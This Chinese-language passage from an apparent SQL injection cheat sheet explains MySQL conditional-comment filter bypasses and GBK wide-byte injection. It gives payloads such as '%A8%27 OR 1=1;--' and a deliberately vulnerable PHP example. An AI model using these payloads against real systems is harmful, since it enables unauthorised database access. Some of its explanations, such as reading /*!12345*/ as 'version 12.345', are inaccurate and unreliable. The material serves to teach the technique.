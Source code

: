 ### 条件注释

* `/*! ... */`：这是一个条件 MySQL 注释。只有当 MySQL 版本大于或等于紧跟在 `/*!` 后面的数字时，注释内的代码才会被执行。如果 MySQL 版本小于指定数字，注释内的代码将被忽略。
  * `/*!12345UNION*/`：这意味着如果 MySQL 版本是 12.345 或更高，单词 UNION 将作为 SQL 语句的一部分被执行。
  * `/*!31337SELECT*/`：类似地，如果 MySQL 版本是 31.337 或更高，单词 SELECT 将被执行。
    例如：`/*!12345UNION*/`，`/*!31337SELECT*/`

### 宽字节注入

宽字节注入是一种特定类型的 SQL 注入攻击，针对使用多字节字符集（如 GBK 或 SJIS）的应用程序。"宽字节"一词指的是可以用多个字节表示的字符编码。当应用程序和数据库对多字节序列的解释不同时，这种类型的注入尤为相关。

`SET NAMES gbk` 查询可以在基于字符集的 SQL 注入攻击中被利用。当字符集设置为 GBK 时，某些多字节字符可以用来绕过转义机制并注入恶意 SQL 代码。

可以利用几个字符来触发注入。

* `%bf%27`：这是字节序列 `0xbf27` 的 URL 编码表示。在 GBK 字符集中，`0xbf27` 解码为一个有效的多字节字符后跟一个单引号（'）。当 MySQL 遇到这个序列时，它将其解释为一个有效的 GBK 字符后跟一个单引号，有效地结束了字符串。
* `%bf%5c`：代表字节序列 `0xbf5c`。在 GBK 中，这解码为一个有效的多字节字符后跟一个反斜杠（`\`）。这可以用来转义序列中的下一个字符。
* `%a1%27`：代表字节序列 `0xa127`。在 GBK 中，这解码为一个有效的多字节字符后跟一个单引号（`'）。

可以创建许多有效载荷，例如：

```
%A8%27 OR 1=1;--
%8C%A8%27 OR 1=1--
%bf' OR 1=1 -- --
```

以下是使用 GBK 编码并过滤用户输入以转义反斜杠、单引号和双引号的 PHP 示例。

```php
function check_addslashes($string)
{
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //转义任何反斜杠
    $string = preg_replace('/\'/i', '\\\'', $string);                               //用反斜杠转义单引号
    $string = preg_replace('/\"/', "\\\"", $string);                                //用反斜杠转义双引号
      
    return $string;
}

$id=check_addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
print_r(mysql_error());
```

以下是宽字节注入的工作原理分解：

例如，如果输入是 `?id=1'`，PHP 将添加一个反斜杠，导致 SQL 查询：`SELECT * FROM users WHERE id='1\'' LIMIT 0,1`。

然而，当在单引号前引入序列 `%df`，如 `?id=1%df'`，PHP 仍然会添加反斜杠。这导致 SQL 查询：`SELECT * FROM users WHERE id='1%df\'' LIMIT 0,1`。 

在 GBK 字符集中，序列 `%df%5c` 转换为字符 `連`。因此，SQL 查询变为：`SELECT * FROM users WHERE id='1連'' LIMIT 0,1`。这里，宽字节字符 `連` 有效地“吃掉”了添加的转义字符，从而允许 SQL 注入。

